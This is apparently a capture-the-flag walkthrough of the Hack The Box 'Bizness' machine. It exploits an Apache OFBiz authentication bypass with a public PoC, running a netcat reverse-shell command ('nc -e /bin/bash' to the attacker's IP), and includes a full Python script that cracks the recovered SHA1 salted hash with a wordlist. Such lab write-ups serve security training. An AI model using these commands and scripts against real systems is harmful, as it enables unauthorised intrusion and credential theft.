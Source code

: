 ## Table of Contents

  - [Enumeration](#Enumeration)
    - [CVE-2023-49070](#CVE-2023-49070)
    - [Shell as ofbiz](#Shell\as\ofbiz)
- [Example usage:](#example\usage:)
- [Create an instance of the PasswordEncryptor class](#create\an\instance\of\the\passwordencryptor\class)
- [Get the number of lines in the wordlist for the loading bar](#get\the\number\of\lines\in\the\wordlist\for\the\loading\bar)
- [Iterate through the wordlist with a loading bar and check for a matching password](#iterate\through\the\wordlist\with\a\loading\bar\and\check\for\a\matching\password)

#CVE-2023-49070
## Enumeration
```bash
nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-18 06:01 UTC
Nmap scan report for 10.10.11.252
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.40 seconds
```

Ports Open:
`22, 80, 443`
![[Pasted image 20240118060404.png]]

When navigating the IP in the browser, `bizness.htb` is the domain that is shown. Let's go ahead and add this to `/etc/hosts`
```bash
echo '10.10.11.252 bizness.htb' | sudo tee -a /etc/hosts           
10.10.11.252 bizness.htb
```

Next moving on to directory enumeration, after a bit of trial and error I tried `dirsearch`.
```bash
dirsearch -u https://bizness.htb/
```
From this step of enumeration, the endpoint containing the Vulnerable login was found:
```
https://bizness.htb/solr/control/checkLogin/
```
	Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467 and CVE-2023-49070)
### CVE-2023-49070
The Apache OFBiz Enterprise Resource Planning (ERP) system, a Java based web framework used across many industries. The SonicWall Threat research team's [discovery](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) of CVE-2023-51467, a severe authentication bypass vulnerability with a CVSS score of 9.8, has unveiled an alarming risk to the system's integrity. This vulnerability not only exposes the ERP system to potential exploitation but also opens the door to a Server-Side Request Forgery (SSRF) exploit, presenting a dual threat to organizations relying on Apache OFBiz.
[CVE-2023-51467 and CVE-2023-49070 PoC](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass?source=post_page-----b0045ddbc33a--------------------------------)

### Shell as ofbiz
Using the `exploit.py` script from the PoC above, I was able to get a shell as `ofbiz`.
```bash
python exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.16.9 6969'
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```
![[Pasted image 20240118062327.png]]
![[Pasted image 20240118063445.png]]
we found some important data during enumeration. 

![[Pasted image 20240118063707.png]]

Using the script below, this can be used to decrypt the password
```python
import hashlib  
import base64  
import os  
from tqdm import tqdm  
  
class PasswordEncryptor:  
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):  
        """  
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.  
  
        :param hash_type: The hash algorithm to use (default is SHA).  
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).  
        """  
        self.hash_type = hash_type  
        self.pbkdf2_iterations = pbkdf2_iterations  
  
    def crypt_bytes(self, salt, value):  
        """  
        Crypt a password using the specified hash type and salt.  
  
        :param salt: The salt used in the encryption.  
        :param value: The password value to be encrypted.  
        :return: The encrypted password string.  
        """  
        if not salt:  
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')  
        hash_obj = hashlib.new(self.hash_type)  
        hash_obj.update(salt.encode('utf-8'))  
        hash_obj.update(value)  
        hashed_bytes = hash_obj.digest()  
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"  
        return result  
  
    def get_crypted_bytes(self, salt, value):  
        """  
        Get the encrypted bytes for a password.  
  
        :param salt: The salt used in the encryption.  
        :param value: The password value to get encrypted bytes for.  
        :return: The encrypted bytes as a string.  
        """  
        try:  
            hash_obj = hashlib.new(self.hash_type)  
            hash_obj.update(salt.encode('utf-8'))  
            hash_obj.update(value)  
            hashed_bytes = hash_obj.digest()  
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')  
        except hashlib.NoSuchAlgorithmException as e:  
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")  
  
# Example usage:  
hash_type = "SHA1"  
salt = "d"  
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="  
wordlist = '/usr/wordlist/rockyou.txt'  
  
# Create an instance of the PasswordEncryptor class  
encryptor = PasswordEncryptor(hash_type)  
  
# Get the number of lines in the wordlist for the loading bar  
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))  
  
# Iterate through the wordlist with a loading bar and check for a matching password  
with open(wordlist, 'r', encoding='latin-1') as password_list:  
    for password in tqdm(password_list, total=total_lines, desc="Processing"):  
        value = password.strip()  
          
        # Get the encrypted password  
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))  
          
        # Compare with the search hash  
        if hashed_password == search:  
            print(f'Found Password:{value}, hash:{hashed_password}')  
            break  # Stop the loop if a match is found
```
![[Pasted image 20240118063246.png]]
password: `monkeybizness`

Using the login and password we now get the root flag!
